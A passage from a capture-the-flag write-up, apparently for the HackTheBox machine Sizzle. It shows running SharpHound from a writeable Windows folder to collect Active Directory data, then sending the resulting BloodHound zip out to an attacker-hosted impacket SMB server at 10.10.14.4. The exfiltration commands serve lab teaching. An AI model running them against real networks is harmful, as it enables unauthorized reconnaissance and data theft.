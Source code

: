 ```powershell
# move to a writeable directory
cd C:\Windows\Registration\CRMLog
# copy the executable
copy ~/sh.exe .
# execute the file
.\sh.exe -c all
# list the files
ls
```

<figure><img src="../../.gitbook/assets/sizzle_sh_temp.png" alt=""><figcaption><p>Figure 23: Moving to a writeable folder in order to execute the binary.</p></figcaption></figure>

Next, we need to transfer the `zip` file to our attack host. We will do that using SMB (Figure 24).

{% tabs %}
{% tab title="1. SMB Server" %}
```bash
# start an SMB server with authentication on the attack host
impacket-smbserver -smb2support share . -username test -password test
```
{% endtab %}

{% tab title="2. Connect" %}
<pre class="language-powershell"><code class="lang-powershell"><strong># connect to the SMB server from target 
</strong><strong>net use x: \\10.10.14.4\share /USER:test test
</strong></code></pre>
{% endtab %}

{% tab title="3. Transfer" %}
```powershell
# transfer the file to the SMB server
copy 20240329053814_BloodHound.zip x:\
```
{% endtab %}
{% endtabs %}
